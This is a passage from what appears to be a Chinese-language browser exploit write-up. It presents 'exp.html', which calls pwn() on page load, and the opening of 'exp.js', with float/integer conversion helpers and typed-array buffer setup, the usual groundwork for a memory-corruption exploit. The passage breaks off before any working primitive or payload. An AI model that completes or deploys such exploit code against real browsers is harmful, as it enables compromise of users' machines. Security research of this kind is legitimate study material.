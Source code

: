 

## exp

完整exp 如下

`exp.html`

```
&lt;!DOCTYPE html&gt;
&lt;html&gt;
&lt;head&gt;
  &lt;style&gt;
    body `{`
      font-family: monospace;
    `}`
  &lt;/style&gt;

  &lt;script src="exp.js"&gt;&lt;/script&gt;
&lt;/head&gt;
&lt;body onload="pwn()"&gt;
  &lt;p&gt;Please wait...&lt;/p&gt;
&lt;/body&gt;
&lt;/html&gt;
```

`exp.js`

```
var conversion_buffer = new ArrayBuffer(8);
var f64 = new Float64Array(conversion_buffer);
var i32 = new Uint32Array(conversion_buffer);

var BASE32 = 0x100000000;
function f2i(f) `{`
    f64[0] = f;
    return i32[0] + BASE32 * i32[1];
`}`

function i2f(i) `{`
    i32[0] = i % BASE32;
    i32[1] = i / BASE32;
    return f64[0];
`}`

function hex(addr)`{`
    return '0x'+addr.toString(16);
`}`
function print(msg) `{`
    console.log(msg);
    document.body.innerText += 'n[+]: '+msg ;
`}`


function pwn()`{`
    buffer1 =  new ArrayBuffer(0x60);
    buffer2 =  new ArrayBuffer(0x60);

    a1_8 = new Uint8Array(buffer1);
    a1_32 = new Uint32Array(buffer1);
    a1_64 = new Float64Array(buffer1);
    a2_8 = new Uint8Array(buffer2);
    a2_32 = new Uint32Array(buffer2);
    a2_64 = new Float64Array(buffer2);

    a1_32[0]=0x61626364;
```